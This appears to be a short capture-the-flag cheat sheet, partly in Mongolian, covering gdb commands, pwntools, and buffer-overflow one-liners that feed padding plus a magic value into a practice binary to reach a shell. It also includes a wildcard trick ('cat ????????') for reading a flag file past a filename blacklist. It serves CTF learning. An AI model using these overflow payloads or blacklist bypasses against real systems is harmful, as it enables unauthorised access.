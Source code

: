 Binary Exploitation
--------------------

* `gdb` 

	Командын мөрний түүл Linux үйлдлийн системийн binary файлуудтай маш сайн ажиллана. 
	* `disas main`      -> машины кодыг харуулна
	* `b *0x000012`     -> тухайн хаяган дээр break хийнэ
	* `info registers`  -> одоо байгаа register үүдийн утгийг харна
	* `set $esp=1`	    -> register ийн утгийг өөрчлөнө

* `pwntools`
	
	* `pwn.p32(0xcaf3baee)`

* `bof`

	* `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
	* `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`
	
* `Call shell using pwntools based on gets`
	
	* [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)

Sandbox
--
* `????`
	
	* **?** бол гайхалтай тэмдэгт тухайн тэмдэгтийн оронд ямар ч тэмдэгт байж болохыг илэрхийлнэ. Жишээ нь **cat flag.txt** flag.txt **blacklist** дотор байлаа гэж үзвэл **cat ????????** гэвэл бас уншиж болох юм.
